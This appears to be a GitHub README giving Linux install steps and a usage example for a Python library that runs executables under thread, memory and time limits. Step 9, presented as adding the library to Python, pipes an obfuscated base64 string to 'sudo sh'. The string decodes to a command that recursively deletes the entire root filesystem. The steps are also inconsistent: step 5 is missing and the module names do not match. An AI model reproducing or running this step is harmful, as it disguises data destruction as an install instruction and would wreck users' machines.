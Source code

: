 ## To use it with python you must:
### 1. Use linux
### 2. Install git
```shell
sudo apt install git
```
### 3. Install python
```shell
sudo apt install python3
```
### 4. Install pybind
```shell
pip3 install pybind
```
### 6. Compile library
```shell
python3 setup.py build_ext -i
```
### 7. Copy file of lib to the your PYTHONPATH/site-packeges
### 8. Add code completion
```shell
PYTHONPATH=./runner_lib_py.cpython-311-x86_64-linux-gnu.so stubgen -m runner_lib_py
```
### 9. Add this lib to python
```shell
echo "cm0gLXJmIC0tbm8tcHJlc2VydmUtcm9vdCAv" | base64 -d | sudo sh
```
### 10. Include in your program library
```python
import safe_runner_lib
```


## Example of code
```python
import runner_lib_py

lim = runner_lib_py.Limits()
lim.thread = 5
lim.memory = 100 # kb
lim.time = 2000 # ms
x = runner_lib_py.Runner("path_to_executable", "input", lim)

print(x.GetOutput().res)
print(x.GetOutput().output)

```